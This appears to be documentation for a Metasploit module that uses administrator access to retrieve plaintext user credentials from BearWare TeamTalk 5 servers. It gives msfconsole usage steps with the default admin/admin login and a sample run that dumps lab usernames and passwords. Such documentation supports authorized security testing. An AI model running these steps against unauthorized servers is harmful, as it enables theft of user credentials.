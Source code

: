 ## Description

  This module retrieves user credentials from BearWare TeamTalk.

  Valid administrator credentials are required.

  Starting from version 5, TeamTalk allows users to login using a username and password combination. The username and password are stored on the server in clear text and can be retrieved remotely by any user with administrator privileges.


## Vulnerable Application

  [TeamTalk 5](http://www.bearware.dk/) is a freeware conferencing system which allows multiple users to participate in audio and video conversations. The TeamTalk install file includes both client and server application. A special client application is included with accessibility features for visually impaired.

  This module has been tested successfully on TeamTalk versions 5.2.2.4885 and 5.2.3.4893.

  The TeamTalk software is available on the [BearWare website](http://www.bearware.dk/) and on [GitHub](https://github.com/BearWare/TeamTalk5).


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/gather/teamtalk_creds`
  3. Do: `set rhost <RHOST>`
  4. Do: `set rport <RPORT>` (default: `10333`)
  5. Do: `set username <USERNAME>` (default: `admin`)
  6. Do: `set password <PASSWORD>` (default: `admin`)
  7. Do: `run`
  8. You should get credentials


## Scenarios

  ```
  [*] 172.16.191.166:10333 - Found TeamTalk (protocol version 5.2)
  [+] 172.16.191.166:10333 - Authenticated successfully
  [+] 172.16.191.166:10333 - User is an administrator
  [*] 172.16.191.166:10333 - Found 5 users

  TeamTalk User Credentials
  =========================

   Username  Password                     Type
   --------  --------                     ----
   debbie    1234567890                   1
   murphy    934txs                       2
   quinn     ~!@#$%^&*()_+{}|:" <>?;',./  2
   sparks    password                     2
   stormy                                 1

  [+] 172.16.191.166:10333 - Credentials saved in: /root/.msf4/loot/20170724092809_default_172.16.191.166_teamtalk.user.cr_034806.txt
  [*] Auxiliary module execution completed
  ```

